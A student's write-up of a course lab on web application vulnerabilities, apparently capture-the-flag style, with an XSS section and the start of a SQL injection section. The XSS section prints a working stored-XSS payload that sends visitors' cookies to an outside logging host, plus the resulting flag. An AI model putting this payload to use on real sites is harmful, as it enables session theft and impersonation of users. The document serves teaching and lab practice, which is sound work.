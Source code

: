 ## Web Application Vulnerabilities
In this assignment try to exploit some vulnerabilities in web apps using techniques like SQL Injection and Code Injection. And also the way we can protect web applications of 
these form of attacks. Access to resources of the assignment is restricted due to the course policy, But I'll try to provide useful information on it.
### Cross-Site Scripting (XSS) 
This type of attack inculdes methods to inject codes to the website which are executed when this pages seen by the other users (XSS Refⅼeⅽteⅾ). I found some fields in the website which were exploitable. 
So I tried to inject a code to steal cookies of visitors and send them to desired address. Having the cookie, we can find session ID of users and exploit this for impersonation.  
By injecting following command in a part of website as fake image we can steal the cookie.
```
<script>new Image().src="http://ptsv.com/t/zrbff-1573749449/post?cookie="+document.cookie;</script>
```
In one of the fields of cookie you can see the flag of this part which is:
```
FLAG{ill_see_marvel_movies_ill_join_a_gym_ill_heart_things_on_instagram_ill_drink_vanilla_lette}
```
### SQL Injection 
